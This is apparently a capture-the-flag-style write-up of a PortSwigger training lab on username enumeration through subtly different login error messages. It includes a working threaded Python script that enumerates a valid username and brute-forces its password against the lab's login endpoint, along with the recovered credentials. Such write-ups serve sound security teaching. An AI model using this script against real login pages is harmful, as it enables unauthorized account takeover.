 # Lab: Username enumeration via subtly different responses
## Task
This lab is subtly vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

[Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)  
[Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)  
To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

## Solution
This lab is pretty much the same as the [previous one](https://github.com/datthinh1801/Writeups/blob/main/PortSwigger/Authentication/Lab%2001.md), except for the messages returned.  

In this lab, `Invalid username or password.` will be returned if an invalid username is given. In case an incorrect password is given, `Invalid username or password` is returned (_note that there is no dot `.`_).  

Script:  
```python
import requests
from bs4 import BeautifulSoup
from concurrent.futures import ThreadPoolExecutor

URL = 'https://ac0a1f3a1f3e999380b6302000c10060.web-security-academy.net/login'

with open('usernames.txt', 'r') as f:
    usernames = f.readlines()

usernames = list(map(lambda x: x.strip(), usernames))

with open('passwords.txt', 'r') as f:
    passwords = f.readlines()

passwords = list(map(lambda x: x.strip(), passwords))

true_username = None
true_password = None


def brute_username(username):
    resp = requests.post(url=URL, data={'username': username, 'password': 'test'})
    soup = BeautifulSoup(resp.text, 'html.parser')
    if soup.find(class_='is-warning').text != 'Invalid username or password.':
        return username
    else:
        return ''


def brute_password(password):
    resp = requests.post(url=URL, data={'username': true_username, 'password': password})
    soup = BeautifulSoup(resp.text, 'html.parser')
    try:
        warning = soup.find(class_='is-warning').text
        return ''
    except:
        return password


with ThreadPoolExecutor(max_workers=10) as executor:
    res = list(executor.map(brute_username, usernames))
    true_username = ''.join(res)

with ThreadPoolExecutor(max_workers=10) as executor:
    res = list(executor.map(brute_password, passwords))
    true_password = ''.join(res)

print(true_username, true_password)
```

Run script:
```py
E:\PortSwigger\venv\Scripts\python.exe E:/PortSwigger/brute_forcer.py
oracle soccer
```

Login:  

![image](https://user-images.githubusercontent.com/44528004/130234581-d7b077fe-ac4e-44ba-9113-b7c82a7db0e9.png)  

![image](https://user-images.githubusercontent.com/44528004/130234624-44312a0a-598b-4211-b3c9-c1cc893cd002.png)
> Solved


